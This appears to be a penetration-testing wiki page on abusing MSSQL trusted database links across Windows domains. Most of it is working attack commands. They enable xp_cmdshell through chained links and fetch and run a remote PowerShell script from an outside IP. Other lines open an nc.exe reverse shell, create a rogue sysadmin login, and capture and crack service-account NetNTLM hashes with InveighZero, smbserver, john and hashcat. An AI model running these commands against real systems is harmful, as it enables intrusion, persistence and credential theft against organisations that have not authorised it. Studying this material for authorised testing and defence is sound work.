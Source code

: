 # MSSQL Trusted Links

## MSSQL Trusted Links

If a user has privileges to **access MSSQL instances**, he could be able to use it to **execute commands** in the MSSQL host (if running as SA).\
Also, if a MSSQL instance is trusted (database link) by a different MSSQL instance. If the user has privileges over the trusted database, he is going to be able to **use the trust relationship to execute queries also in the other instance**. This trusts can be chained and at some point the user might be able to find some misconfigured database where he can execute commands.

**The links between databases work even across forest trusts.**

### **Powershell**

```bash
Import-Module .\PowerupSQL.psd1

#Get local MSSQL instance (if any)
Get-SQLInstanceLocal
Get-SQLInstanceLocal | Get-SQLServerInfo

#If you don't have a AD account, you can try to find MSSQL scanning via UDP
#First, you will need a list of hosts to scan
Get-Content c:\temp\computers.txt | Get-SQLInstanceScanUDP –Verbose –Threads 10

#If you have some valid credentials and you have discovered valid MSSQL hosts you can try to login into them
#The discovered MSSQL servers must be on the file: C:\temp\instances.txt
Get-SQLInstanceFile -FilePath C:\temp\instances.txt | Get-SQLConnectionTest -Verbose -Username test -Password test

## FROM INSIDE OF THE DOMAIN
#Get info about valid MSQL instances running in domain
#This looks for SPNs that starts with MSSQL (not always is a MSSQL running instance)
Get-SQLInstanceDomain | Get-SQLServerinfo -Verbose 

#Test connections with each one
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -verbose

#Try to connect and obtain info from each MSSQL server (also useful to check conectivity)
Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose

#Dump an instance (a lotof CVSs generated in current dir)
Invoke-SQLDumpInfo -Verbose -Instance "dcorp-mssql"

#Look for MSSQL links of an accessible instance
Get-SQLServerLink -Instance dcorp-mssql -Verbose #Check for DatabaseLinkd > 0

#Crawl trusted links, starting form the given one (the user being used by the MSSQL instance is also specified)
Get-SQLServerLinkCrawl -Instance mssql-srv.domain.local -Verbose

#If you are sysadmin in some trusted link you can enable xp_cmdshell with:
Get-SQLServerLinkCrawl -instance "<INSTANCE1>" -verbose -Query 'EXECUTE(''sp_configure ''''xp_cmdshell'''',1;reconfigure;'') AT "<INSTANCE2>"'

#Execute a query in all linked instances (try to execute commands), output should be in CustomQuery field
Get-SQLServerLinkCrawl -Instance mssql-srv.domain.local -Query "exec master..xp_cmdshell 'whoami'"

#Obtain a shell
Get-SQLServerLinkCrawl -Instance dcorp-mssql  -Query 'exec master..xp_cmdshell "powershell iex (New-Object Net.WebClient).DownloadString(''http://172.16.100.114:8080/pc.ps1'')"'

#Check for possible vulnerabilities on an instance where you have access
Invoke-SQLAudit -Verbose -Instance "dcorp-mssql.dollarcorp.moneycorp.local"

#Try to escalate privileges on an instance
Invoke-SQLEscalatePriv –Verbose –Instance "SQLServer1\Instance1"
```

### OSQL

```powershell
osql -E -S "CYWEBDW" -Q "EXECUTE('sp_configure ''xp_cmdshell'',1;reconfigure;') AT [m3sqlw.m3c.local]"
osql -E -S "CYWEBDW" -Q "EXECUTE('xp_cmdshell ''c:\users\public\nc.exe -e cmd.exe $ip 443'' ') AT [m3sqlw.m3c.local];"
osql -E -S "CYWEBDW" -Q "EXECUTE('xp_cmdshell ''c:\users\public\nc.exe -e cmd.exe $ip 443'' ') AT [m3sqlw.m3c.local];"
```

### Metasploit

You can easily check for trusted links using metasploit.

```bash
#Set username, password, windows auth (if using AD), IP...
msf> use exploit/windows/mssql/mssql_linkcrawler
[msf> set DEPLOY true] #Set DEPLOY to true if you want to abuse the privileges to obtain a meterpreter session
```

Notice that metasploit will try to abuse only the `openquery()` function in MSSQL (so, if you can't execute command with `openquery()` you will need to try the `EXECUTE` method **manually** to execute commands, see more below.)

### Manual - Openquery()

From Linux you could obtain a MSSQL console shell with **sqsh** and **mssqlclient.py** and run queries like:

```bash
select * from openquery("DOMINIO\SERVER1",'select * from openquery("DOMINIO\SERVER2",''select * from master..sysservers'')')
```

From Windows you could also find the links and execute commands manually using a MSSQL client like [HeidiSQL](https://www.heidisql.com)

_Login using Windows authentication:_

![](<../../.gitbook/assets/image (167).png>)

_Find links inside the accessible MSSQL server (in this case the link is to dcorp-sql1):_\
\_\_`select * from master..sysservers`

![](<../../.gitbook/assets/image (168).png>)

Execute queries through the link (example: find more links in the new accessible instance):\
`select * from openquery("dcorp-sql1", 'select * from master..sysservers')`

![](<../../.gitbook/assets/image (169).png>)

You can continue these trusted links chain forever manually.

Some times you won't be able to perform actions like `exec xp_cmdshell` from `openquery()` in those cases it might be worth it to test the following method:

### Manual - EXECUTE

You can also abuse trusted links using EXECUTE:

```bash
#Create user and give admin privileges
EXECUTE('EXECUTE(''CREATE LOGIN hacker WITH PASSWORD = ''''P@ssword123.'''' '') AT "DOMINIO\SERVER1"') AT "DOMINIO\SERVER2"
EXECUTE('EXECUTE(''sp_addsrvrolemember ''''hacker'''' , ''''sysadmin'''' '') AT "DOMINIO\SERVER1"') AT "DOMINIO\SERVER2"
```

#### MS SQL NetNTLM Capture

The **xp\_dirtree** procedure can be used to capture the NetNTLM hash of the principal being used to run the MS SQL Service. We can use [InveighZero](https://github.com/Kevin-Robertson/InveighZero) to listen to the incoming requests (this should be run as a local admin).

```
beacon> execute-assembly C:\Tools\InveighZero\Inveigh\bin\Debug\Inveigh.exe -DNS N -LLMNR N -LLMNRv6 N -HTTP N -FileOutput N

[*] Inveigh 0.913 started at 2021-03-10T18:02:36
[+] Elevated Privilege Mode = Enabled
[+] Primary IP Address = 10.10.17.231
[+] Spoofer IP Address = 10.10.17.231
[+] Packet Sniffer = Enabled
[+] DHCPv6 Spoofer = Disabled
[+] DNS Spoofer = Disabled
[+] LLMNR Spoofer = Disabled
[+] LLMNRv6 Spoofer = Disabled
[+] mDNS Spoofer = Disabled
[+] NBNS Spoofer = Disabled
[+] HTTP Capture = Disabled
[+] Proxy Capture = Disabled
[+] WPAD Authentication = NTLM
[+] WPAD NTLM Authentication Ignore List = Firefox
[+] SMB Capture = Enabled
[+] Machine Account Capture = Disabled
[+] File Output = Disabled
[+] Log Output = Enabled
[+] Pcap Output = Disabled
[+] Previous Session Files = Not Found
[*] Press ESC to access console
```

Now execute `EXEC xp_dirtree '\\10.10.17.231\pwn', 1, 1` on the MS SQL server, where `10.10.17.231` is the IP address of the machine running InveighZero.

```
[+] [2021-05-14T15:33:49] TCP(445) SYN packet from 10.10.17.25:50323
[+] [2021-05-14T15:33:49] SMB(445) negotiation request detected from 10.10.17.25:50323
[+] [2021-05-14T15:33:49] SMB(445) NTLM challenge 3006547FFC8E90D8 sent to 10.10.17.25:50323
[+] [2021-05-14T15:33:49] SMB(445) NTLMv2 captured for DEV\svc_mssql from 10.10.17.25(SRV-1):50323:
svc_mssql::DEV:[...snip...]
```

Use `--format=netntlmv2 --wordlist=wordlist svc_mssql-netntlmv2` with **john** or `-a 0 -m 5600 svc_mssql-netntlmv2 wordlist` with **hashcat** to crack.

This is useful because the SQL Instance may be being run by a privileged account, sometimes even a Domain Admin. InveighZero will ignore traffic coming from accounts that are generally deemed to be "uncrackable" such as computer accounts.

You may also use the WinDivert + rportfwd combo (shown on the **NTLM Relaying page**) with Impacket's [smbserver.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py) to capture the NetNTLM hashes.

```
root@kali:~# python3 /usr/local/bin/smbserver.py -smb2support pwn .
Impacket v0.9.24.dev1+20210720.100427.cd4fe47c - Copyright 2021 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (127.0.0.1,46894)
[-] Unsupported MechType 'MS KRB5 - Microsoft Kerberos 5'
[*] AUTHENTICATE_MESSAGE (DEV\svc_mssql,SRV-1)
[*] User SRV-1\svc_mssql authenticated successfully
[*] svc_mssql::DEV:[...snip...]
[*] Connecting Share(1:pwn)
```
